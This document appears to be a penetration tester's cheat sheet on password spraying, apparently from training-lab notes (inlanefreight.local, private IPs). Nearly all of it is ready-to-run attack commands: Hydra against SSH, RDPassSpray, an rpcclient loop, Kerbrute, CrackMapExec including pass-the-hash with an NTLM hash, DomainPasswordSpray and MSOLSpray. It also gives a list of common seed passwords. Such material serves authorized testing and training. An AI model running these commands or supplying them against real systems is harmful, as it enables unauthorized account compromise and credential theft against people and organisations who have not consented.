 # Password Spraying

## Hydra
```
hydra -L usernames.txt -p Sprint2022 ssh://10.10.10.10
```

## RDPassSpray for RDP
[RDPassSpray Github](https://github.com/xFreed0m/RDPassSpray)

```
python3 RDPassSpray.py -u victim -p Spring2021! -t 10.100.10.240:3026
```

## RPCClient
```
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

## Kerbrute
Had issues with /etc/krb5.conf with Linux test, might need to modify conf file
Make sure your valid_users list is the proper format (fname,last_name, etc) not full email address

[Linux Kerberos Auth Against Windows](https://michlstechblog.info/blog/linux-kerberos-authentification-against-windows-active-directory/#more-1628)

```
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1
.\kerbrute_Windows.exe passwordspray -d inlanefreight.local --dc 172.16.5.5 .\valid_users.txt Welcome1  -o .\spray_success_kerbrute --safe
```

## Crackmapexec
Make sure your valid_users list is the proper format (fname,last_name, etc)

```
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 |grep +
sudo crackmapexec smb 172.16.5.0/23 -u administrator -H '88ad09182de639ccc6579eb0849751cf' --local-auth
```

## DomainPasswordSpray
```
## If you have access to the machine
C:\> . .\DomainPasswordSpray.ps1 or Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue

## Using lists
Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt
Invoke-DomainPasswordSpray -UserList .\valid_users.txt -Domain inlanefreight.local -Password Welcome1 -OutFile spray_success_02 -ErrorAction SilentlyContinue
```

## MSOLSpray
```
Invoke-MSOLSpray -UserList .\userlist.txt -Password <password to spray>
```

## Potential Starting Password Sprays
```
password
Password1
Passw0rd
Welcome1
AutumnYY
SpringYY
SummerYY
WinterYY
```

## SprayingToolkit
[SprayingToolkit Github](https://github.com/byt3bl33d3r/SprayingToolkit)

## MailSniper
[MailSniper Github](https://github.com/dafthack/MailSniper)

## DomainPasswordSpray
[Domain Password Spray](https://github.com/dafthack/DomainPasswordSpray)

## MSOLSpray
[MSOLSpray](https://github.com/dafthack/MSOLSpray)
